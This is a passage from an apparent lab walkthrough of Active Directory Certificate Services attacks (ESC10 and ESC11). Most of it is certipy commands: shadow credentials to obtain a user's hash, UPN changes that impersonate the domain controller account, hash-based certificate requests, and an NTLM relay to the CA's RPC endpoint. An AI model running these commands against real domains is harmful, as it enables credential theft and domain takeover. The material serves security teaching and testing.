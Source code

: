 ![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/3a79b351-8b1a-4ab7-a40d-72395d02f2b7)

Next, request a certificate as Jdoe, just like in ESC9

```
certipy req -ca 'lab-CA' -username jdoe@lab.lan -hashes e19ccf75ee54e06b06a5907af13cef42 -target 192.168.1.3
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/7c30561a-8cb1-49bc-86f3-2e5f2b676951)

Finally, revert Jdoe's UPN back to normal:

```
certipy account update -username attacker@lab.lan -password P@ssw0rd -user jdoe -upn jdoe@lab.lan
```

For the second method of exploitation (CertificateMappingMethods == 0x4), also utilize shadow credentials to gain Jdoe's hash

```
certipy shadow auto -username attacker@lab.lan -p P@ssw0rd -account jdoe
```
![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/0001714a-ec6c-4c7b-90ce-3e4ca42e7596)

Next, change Jdoe's UPN to a principal that doesn't have a UPN set, such as the Domain Controller machine account:

```
certipy account update -username attacker@lab.lan -password P@ssw0rd -user jdoe -upn 'DC$@lab.lan'
```
![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/92e2bf79-dc36-4efe-9865-a3333db85d36)

Then, just like before, request a certificate as Jdoe:

```
certipy req -ca 'lab-CA' -username jdoe@lab.lan -hashes e19ccf75ee54e06b06a5907af13cef42 -target 192.168.1.3
```
![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/ccf843ee-5967-41af-be3c-fd0931b47fd5)

Then, just like last time, revert Jdoe's UPN back to normal:

```
certipy account update -username jdoe@lab.lan -password P@ssw0rd -user jdoe -upn 'jdoe@lab.lan'
```

<br />

### Exploitation of ESC11

Start the certipy relay server, to relay NTLM authentication requests to the vulnerable RPC endpoint:

```
certipy relay -target 'rpc://CA.lab.lan' -ca 'lab-CA' -template DomainController
```
